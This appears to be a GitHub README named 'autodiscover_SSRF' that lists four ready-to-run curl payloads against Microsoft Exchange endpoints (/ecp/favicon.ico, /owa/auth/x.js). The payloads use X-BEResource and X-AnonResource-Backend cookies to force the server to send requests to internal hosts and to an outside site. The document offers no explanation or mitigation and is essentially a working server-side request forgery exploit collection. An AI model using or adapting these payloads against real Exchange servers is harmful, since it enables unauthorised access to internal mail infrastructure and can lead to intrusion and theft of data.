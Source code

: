 # autodiscover_SSRF

Payload A

curl -i -s -k -X $'POST' \
    -H $'Host: externaldomain.local' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalservername.domain.local/autodiscover/autodiscover.xml#~1' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>' \
    $'https://externaldomain.local/ecp/favicon.ico'


Payload B

curl -i -s -k -X $'GET' \
    -H $'Host: localhost' \
    -b $'X-AnonResource-Backend=www.bbc.co.uk/#~1; X-AnonResource=true' \
    $'https://externaldomain.local/ecp/favicon.ico'

Payload C

curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalserver.domain.local/autodiscover/autodiscover.xml#~1941962753' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>\x0d\x0a' \
    $'https://externaldomain.local/ecp/favicon.ico'

Payload D

curl -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1' -H $'User-Agent: Sk1dd13-02928910918' \
    -b $'X-AnonResource=true; X-AnonResource-Backend=localhost/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3' \
    $'https://externaldomain.local/owa/auth/x.js'
